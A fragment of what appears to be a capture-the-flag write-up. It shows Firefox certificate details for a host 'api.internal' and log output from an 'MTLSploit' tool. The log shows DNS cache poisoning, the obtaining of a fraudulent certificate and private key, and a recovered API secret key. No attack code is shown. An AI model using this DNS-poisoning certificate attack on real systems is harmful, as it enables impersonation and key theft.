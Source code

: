 ```
{
	"Connection:": {
		"Protocol version:": "TLSv1.3",
		"Cipher suite:": "TLS_AES_128_GCM_SHA256",
		"Key Exchange Group:": "x25519",
		"Signature Scheme:": "RSA-PSS-SHA512"
	},
	"Host api.internal:": {
		"HTTP Strict Transport Security:": "Enabled",
		"Public Key Pinning:": "Disabled"
	},
	"Certificate:": {
		"Issued To": {
			"Common Name (CN):": "<Not Available>",
			"Organization (O):": "DigiShue CA",
			"Organizational Unit (OU):": "<Not Available>"
		},
		"Issued By": {
			"Common Name (CN):": "<Not Available>",
			"Organization (O):": "DigiShue CA",
			"Organizational Unit (OU):": "<Not Available>"
		},
		"Period of Validity": {
			"Begins On:": "Tue, 08 Nov 2022 19:15:58 GMT",
			"Expires On:": "Mon, 08 Nov 2032 19:15:58 GMT"
		},
		"Fingerprints": {
			"SHA-256 Fingerprint:": "F1:16:12:97:56:28:D6:E2:2D:ED:93:93:2D:8F:2A:14:02:E7:7E:A5:CA:F1:BB:87:40:2F:A1:1A:71:66:7F:7C",
			"SHA1 Fingerprint:": "6D:39:E6:BF:EA:44:B5:20:11:62:AC:5F:4F:1C:B4:69:6A:72:20:24"
		},
		"Transparency:": "<Not Available>"
	}
}
```
*Figure 2: HTTP security information - output by firefox developer tools*

```
================================================================================
-----------------------------Welcome to Auto Elect!-----------------------------
Is democracy too inconvenient? We've got you covered.
================================================================================



--------------------Registering interface on secure vlan...---------------------
Registered.

------------------------------Launching MTLSploit-------------------------------
2022/11/09 02:51:46 Preparing DNS poisoner
2022/11/09 02:51:46 Creating pwn0 interface with 10.64.10.2
2022/11/09 02:51:46 Fetching validation token
2022/11/09 02:51:46 Serializing DNS packet
2022/11/09 02:51:46 Serialized DNS response for TXT [1f7b169c846f218ab552fa82fbf86758] id 11807
2022/11/09 02:51:46 Sending DNS responses to 10.64.10.3:50000
2022/11/09 02:51:46 Waiting for DNS cache poisoning
2022/11/09 02:51:47 Validating token with CA
2022/11/09 02:52:06 Wrote api.internal-crt.pem and api.internal-key.pem
2022/11/09 02:52:06 Stopped DNS poisoner
/usr/lib/python3/dist-packages/urllib3/connectionpool.py:999: InsecureRequestWarning: Unverified HTTPS request is being made to host 'keyserver.internal'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  warnings.warn(
I found the API's secret key! It's  E+OOHJEe8ErDLtTjQx1DVJKX8E0NWmRmTBPWzr/1Mso=
```